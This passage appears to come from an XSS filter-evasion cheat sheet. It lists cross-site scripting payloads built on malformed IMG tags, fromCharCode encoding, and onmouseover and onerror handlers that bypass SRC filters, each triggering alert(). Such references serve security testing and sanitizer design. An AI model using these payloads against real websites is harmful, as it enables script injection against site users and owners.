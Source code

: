 Originally found by Begeek (but cleaned up and shortened to work in all
browsers), this XSS vector uses the relaxed rendering engine to create
our XSS vector within an IMG tag that should be encapsulated within
quotes. I assume this was originally meant to correct sloppy coding.
This would make it significantly more difficult to correctly parse apart
an HTML tag:

    `<IMG """>`

    <SCRIPT>

    alert("XSS")

    </SCRIPT>

    "\>

## fromCharCode

If no quotes of any kind are allowed you can eval() a fromCharCode in
JavaScript to create any XSS vector you need:

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

## Default SRC tag to get past filters that check SRC domain

This will bypass most SRC domain filters. Inserting javascript in an
event method will also apply to any HTML tag type injection that uses
elements like Form, Iframe, Input, Embed etc. It will also allow any
relevant event for the tag type to be substituted like onblur, onclick
giving you an extensive amount of variations for many injections listed
here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

    <IMG SRC=# onmouseover="alert('xxs')">

## Default SRC tag by leaving it empty

    <IMG SRC= onmouseover="alert('xxs')">

## Default SRC tag by leaving it out entirely

    <IMG onmouseover="alert('xxs')">

## On error alert

    <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
